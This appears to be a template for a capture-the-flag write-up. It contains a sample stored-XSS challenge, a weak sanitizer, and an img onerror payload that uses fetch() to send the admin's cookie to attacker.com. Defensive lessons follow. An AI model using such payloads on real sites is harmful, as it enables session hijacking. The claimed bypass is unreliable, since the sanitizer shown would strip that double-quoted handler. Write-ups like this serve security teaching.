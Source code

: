 ```yaml
---
title: "Challenge Title"
date: "YYYY-MM-DD"
ctf: "CTF Name Year"
category: "web" # Options: web, crypto, pwn, rev, forensics, misc, osint
difficulty: "Medium" # Options: Easy, Medium, Hard
points: 100
tags: ["tag1", "tag2"]
author: "Tham Le"
solved: true
---
```


# Challenge Title

## Challenge Description
<!-- Brief description of the challenge, including any provided instructions -->

The website allows users to submit comments that are displayed to administrators. Your goal is to steal the admin's cookie.

## Analysis
<!-- Your thought process, insights, and analysis of the challenge -->

The website filters many common XSS payloads but has a vulnerability in how it handles image tags.

![Screenshot of the vulnerable website](images/screenshot.png)

## Exploitation
<!-- Step by step explanation of how you solved the challenge -->

By analyzing the source code, I found that the site uses a custom sanitization function:

```javascript
function sanitize(input) {
  // Remove script tags
  input = input.replace(/<script.*?>.*?<\/script>/gi, '');
  // Allow some tags but remove event handlers
  input = input.replace(/on\w+=".*?"/gi, '');
  return input;
}
```

However, this function doesn't handle all cases. I created the following payload:

```html
<img src="x" onerror="fetch('https://attacker.com/'+document.cookie)">
```

## Solution
<!-- Final solution, flag, and any important lessons -->

After submitting the payload, I received the admin's cookie at my server:

![Cookie capture](images/cookie-capture.png)

Using this cookie, I was able to authenticate as the admin and retrieve the flag: `flag{example_flag_here}`

## Lessons Learned
<!-- Key takeaways and technical lessons from the challenge -->

1. Always validate and sanitize user input thoroughly
2. Use proper context-aware sanitization libraries
3. Consider implementing a Content Security Policy
4. Avoid storing sensitive information in cookies when possible

